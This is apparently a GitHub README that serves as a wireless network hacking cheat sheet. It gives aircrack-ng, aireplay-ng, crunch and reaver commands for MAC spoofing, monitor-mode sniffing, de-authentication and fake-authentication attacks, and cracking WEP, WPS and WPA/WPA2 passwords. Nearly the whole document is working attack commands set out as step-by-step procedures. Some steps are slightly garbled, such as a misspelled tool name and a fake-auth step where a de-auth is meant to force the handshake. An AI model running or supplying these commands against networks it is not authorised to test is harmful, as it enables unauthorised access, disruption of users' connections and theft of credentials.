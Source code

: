 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [Creating a Wordlist](#wordlist)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WPA & WPA](#wpa)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`aerodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wordlist"/>

## Wordlist with `crunch`

**Desc** : Wordlist are used to bruteforce password, here is how to create our own wordlist

**USAGE** : `crunch <MIN> <MAX> <CHARACTERS> -t <PATERN> -o <FILE_NAME>`

example
```bash
crunch 6 8 123abc$ -t a@@@@b -o wordlist.txt
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password\
Router must be on WPS not be configured "Push Button" or "PBC", only way to know is to test

1. [Change wireless mode](#changewirelessmode) to monitor
2. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
3. Do Some (30) [Fake Authentification Attack](#fakeauth)
4. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wpa"/>

### WPA & WPA2

**DESC** : WPA fixed WEP vulnerabilities, one way is to bruteforce the password with wordlist.\
The main idea is to catch the handshake to then bruteforce\
MIC = Message Integrity Code
This is the code we try to get correct by testing password from worlist and the data of the handshake (SP address, STA Address, AP Nonce, STA Nonce, EAPOL, Payload).

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Wait for capturing the handshake) and save them in a file <FILE_NAME>.cap
3. Do some (4) [Fake Authentification Attack](#fakeauth)
    1. force the handshake on one user
4. With [wordlist](#wordlist) run `aircrack-ng`
    ```bash
    aircrack-ng <FILE_NAME>.cap -w <WORDLIST_FILE>
    ```
